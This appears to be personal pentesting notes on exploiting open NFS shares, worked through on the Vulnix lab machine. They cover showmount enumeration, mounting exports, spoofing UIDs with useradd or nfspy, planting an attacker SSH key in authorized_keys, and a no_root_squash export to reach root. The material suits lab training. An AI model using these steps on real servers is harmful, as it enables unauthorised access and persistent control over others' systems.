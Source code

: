 ---- NFS ports ----

If NFS ports are open

	showmount -e <ip>
	<returns shared directories> e.g /home/vulnix

Mounting the NFS directory

		cd ~
		mkdir vulnix
		mount -t nfs <ip>:/home/vulnix ~/vulnix
		
View permissions and stuff of the new directory

		ls -ld vulnix
		<this may not show the UID and GID, showing as 'nobody'>
		<e.g drwxr-x--- 2 nobody nobody 4096 Sep  2  2012 vulnix>
		and/or
		stat vulnix
		
Mount differently if cant see UID and GID

		mount -t nfs -o vers=3 <ip>:/home/vulnix ~/vulnix
		ls -ld vulnix
		<should show the real UID and GID this time>
		<e.g mount -t nfs -o vers=3 192.168.2.4:/home/vulnix ~/vulnix >
		
Create a spoof user

		groupadd --gid 2008 vulnix_group
		useradd --uid 2008 --groups vulnix_group vulnix_user
		sudo -u vulnix_user ls -a vulnix
		<if you have permissions now, it should show the file listing in the directory>
		
Can also use nfspy, this spoofs user instead of really creating it
https://github.com/bonsaiviking/NfSpy

		nfspy -o server=192.168.2.4:/home/vulnix,nfsport=2049/tcp,rw vulnix
		or for root:
		nfspy -o server=192.168.2.4:/,nfsport=2049/tcp,rw ~/vulnix_root


SSL KEY STUFF (figure this out later) original url: https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb

		root@kali:~# ls /root/.ssh/
		root@kali:~# ssh-keygen
		Generating public/private rsa key pair.
		Enter file in which to save the key (/root/.ssh/id_rsa):
		Enter passphrase (empty for no passphrase):
		Enter same passphrase again:
		Your identification has been saved in /root/.ssh/id_rsa.
		Your public key has been saved in /root/.ssh/id_rsa.pub.
		The key fingerprint is:
		SHA256:VoZMUJiHramBTJnCofq3Osa2s3JaFFJP0yct0V5KKwU root@kali
		The key's randomart image is:
		+---[RSA 2048]----+
		|..ooo.E%o        |
		|oo+o .BoO..      |
		|o+...  @o+o      |
		|..o.. + +o       |
		|. .  o .S        |
		| o  .  .         |
		| .o .            |
		|..B. .           |
		|.*+*.            |
		+----[SHA256]-----+
		root@kali:~# ls /root/.ssh/
		id_rsa  id_rsa.pub
		root@kali:~# cat /root/.ssh/id_rsa.pub
		ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC42NpxutFyfjQuOtZRiHzS/HRgCDQZZrrmizKrLmnhWy4RbzMqFc/URB22QtHkQLnX4libQkGKaSce2bEE2mF0DKB8oX/O9L+J7BYf5d7C6UQ1fLXN1Tg3Ls4QbKBrQGKPH14rdmzSe+ESKc5fE+cvBhB7f8Ub4HnZTDhLCSLJoyzNf85BkU/QjjWymxEXaoSDhg9vPgXEeQAAUCikkpcTwE5PVGG8z+m1fR0OZnzm45sfe2b+NI18owH60oGm8n8O6jOivsvlohXpNrcCm2Ago994zVA4V9ntPd6owXb77Wu1w8Zz1x1dK79QvIook18B6SIhnjJWyFgxHox2Gg8F root@kali


Copy key into target's authorized keys(figure this out later too)

		root@kali:~# su vulnix
		$ cd /tmp/nfs
		$ ls -la
		total 20
		drwxr-x---  2 vulnix vulnix 4096 May 16 16:25 .
		drwxrwxrwt 15 root   root   4096 May 16 18:36 ..
		-rw-r--r--  1 vulnix vulnix  220 Apr  3  2012 .bash_logout
		-rw-r--r--  1 vulnix vulnix 3486 Apr  3  2012 .bashrc
		-rw-r--r--  1 vulnix vulnix  675 Apr  3  2012 .profile
		$ mkdir .ssh
		$ cd .ssh
		$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC42NpxutFyfjQuOtZRiHzS/HRgCDQZZrrmizKrLmnhWy4RbzMqFc/URB22QtHkQLnX4libQkGKaSce2bEE2mF0DKB8oX/O9L+J7BYf5d7C6UQ1fLXN1Tg3Ls4QbKBrQGKPH14rdmzSe+ESKc5fE+cvBhB7f8Ub4HnZTDhLCSLJoyzNf85BkU/QjjWymxEXaoSDhg9vPgXEeQAAUCikkpcTwE5PVGG8z+m1fR0OZnzm45sfe2b+NI18owH60oGm8n8O6jOivsvlohXpNrcCm2Ago994zVA4V9ntPd6owXb77Wu1w8Zz1x1dK79QvIook18B6SIhnjJWyFgxHox2Gg8F root@kali > authorized_keys


Copy own key into target's authorized keys

		cp ~/.ssh/id_rsa.pub vulnix/.ssh/authorized_keys

SSH into target

		ssh vulnix@<ip>
		
** extras **

		cat /etc/exports
		/home/vulnix	*(rw,root_squash)

can add the following into /etc/exports to export the whole machine


		/		*(rw,no_root_squash)
		
find a way to restart computer or service
remount the thing
spoof root uid and gid
add new key again
ssh in as root


Link to walkthrough
https://blog.christophetd.fr/write-up-vulnix/
